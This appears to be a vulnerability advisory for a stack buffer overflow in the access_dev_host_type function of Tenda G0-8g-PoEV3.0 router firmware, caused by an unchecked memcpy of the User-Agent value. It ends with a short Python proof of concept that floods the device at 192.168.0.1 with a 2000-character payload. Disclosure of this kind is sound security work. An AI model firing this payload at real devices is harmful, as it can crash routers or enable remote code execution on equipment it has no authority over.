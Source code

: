 # Tenda G0-8g-PoEV3.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680)

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `s` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
